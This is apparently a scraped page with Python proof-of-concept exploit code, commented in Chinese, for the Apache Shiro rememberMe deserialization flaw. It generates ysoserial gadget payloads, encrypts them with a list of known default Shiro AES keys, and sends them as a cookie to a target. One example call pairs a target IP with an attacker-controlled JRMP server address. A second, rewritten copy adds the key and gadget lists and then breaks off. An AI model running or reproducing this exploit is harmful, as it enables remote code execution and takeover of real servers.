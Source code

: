 ```
def poc(url, rce_command,key,func):
    if '://' not in url:
        target = 'https://%s' % url if ':443' in url else 'http://%s' % url
    else:
        target = url
    try:
        payload = generator(rce_command, JAR_FILE,key,func)  # 生成payload
        #print payload
        print payload.decode()
        #exit()
        r = requests.get(target, cookies={'rememberMe': payload.decode()}, timeout=10,verify=False)  # 发送验证请求
    except Exception, e:
        print(e)
        pass
    return False
def generator(command, fp,aeskey,func):
    if not os.path.exists(fp):
        raise Exception('jar file not found!')
    
    popen = subprocess.Popen(['java', '-jar', fp,func, command],stdout=subprocess.PIPE)
 
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = aeskey
    mode = AES.MODE_CBC
    iv = uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext
poc('http://192.168.66.38:86','39.108.99.6:1099',keys[1],'JRMPClient')   #www.test.com替换成目标主机的链接，114.118.80.138替换成自己VPS的地址

```



自己改写了一下

```
#coding: utf-8
import sys
import os
import uuid
import base64
import subprocess
import requests
from Crypto.Cipher import AES

JAR_FILE = 'ysoserial.jar'
keys = ['Z3VucwAAAAAAAAAAAAAAAA==','kPH+bIxk5D2deZiIxcaaaA==','4AvVhmFLUs0KTA3Kprsdag==','3AvVhmFLUs0KTA3Kprsdag==','2AvVhdsgUs0FSA3SDFAdag==','wGiHplamyXlVB11UXWol8g==','fCq+/xW488hMTCD+cmJ3aQ==','1QWLxg+NYmxraMoxAXu/Iw==','ZUdsaGJuSmxibVI2ZHc9PQ==','L7RioUULEFhRyxM7a2R/Yg== ','6ZmI6I2j5Y+R5aSn5ZOlAA==','r0e3c16IdVkouZgk1TKVMg==','ZWvohmPdUsAWT3=KpPqda','5aaC5qKm5oqA5pyvAAAAAA==','bWluZS1hc3NldC1rZXk6QQ==','a2VlcE9uR29pbmdBbmRGaQ==','WcfHGU25gNnTxTlmJMeSpw==','LEGEND-CAMPUS-CIPHERKEY==','3AvVhmFLUs0KTA3Kprsdag==']
lis = ["BeanShell1","C3P0","Clojure","CommonsBeanutils1","CommonsCollections1","CommonsCollections2","CommonsCollections3","CommonsCollections4","CommonsCollections5","CommonsCollections6","FileUpload1","Groovy1","Hibernate1","Hibernate2","JBossInterceptors1","JRMPClient","JRMPListener","JSON1","JavassistWeld1","Jdk7u21","Jython1","MozillaRhino1","Myfaces1","Myfaces2","ROME","Spring1","Spring2","URLDNS","Wicket1",]


def poc(url, rce_command,key,func):
```
